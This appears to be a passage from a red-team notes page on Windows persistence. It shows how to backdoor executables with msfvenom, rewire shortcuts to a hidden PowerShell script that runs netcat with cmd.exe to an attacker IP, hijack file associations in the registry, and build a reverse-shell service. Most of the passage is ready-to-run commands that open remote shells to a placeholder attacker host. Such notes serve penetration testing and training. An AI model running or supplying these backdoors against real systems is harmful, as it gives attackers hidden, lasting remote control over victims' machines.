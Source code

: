 ## 3. Backdooring files
Using the file access, an attacker can plant backdoors that will get executed whenever the user accesses the backdoored executable. The backdoored files should keep working for the user as expected.

### 3.1. Executables
Using `msfvenom` an attacker can backdoor any executable to work as expected and create a new malicious thread as well. Notice that the executable we want to patch must be downloaded to use `msfvenom` on it.

```bash
msfvenom -a x64 --platform windows -x <EXECUTABLE_TO_PATCH> -k -p windows/x64/shell_reverse_tcp lhost=<ATTACKER_IP> lport=4444 -b "\x00" -f exe -o <OUTPUT_EXE_FILE>
```

### 3.2. Shortcuts
Instead of pointing directly to the expected executable, an attacker can change the shortcut to point to a script that will run a backdoor and then execute the expected software normally.

Example backdoor PS script:

```powershell
# backdoor.ps1
Start-Process -noNewWindow "c:\...\nc64.exe" "-e cmd.exe <ATTACKER_IP> <ATTACKER_PORT>
C:\Windows\...\<executable>.exe
```

Then the shortcut should point to:

```powershell
powershell.exe -WindowStyle hidden <backdoor.ps1-path>
```

### 3.3. File associations hijacking
Modifing the Windows registry an attacker can assign a backdoor script to any file extension. The OS will run a backdoor script whenever the user opens a specific file type.

All extensions are defined in the path `HKLM\Software\Classes\`. In every item there is a `(default)` field with some `data`. The data is called `ProgID` ant it's an identifier of the specific software installed in the OS. Then, the command associate with an ProgID might be found in: `HKLM\Software\Classes\<ProgID>\shell\open\command`. Here, the attacker can replace the original command with the backdoored one - same as with `shortcuts`.

## 4. Services

### 4.1. Create a malicious service
An attacker can create a malicious service which will run a reverse-shell every time the machine is starting.

```bash
# Create a backdoor service executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe-service -o <OUTPUT_FILE_EXE>
```
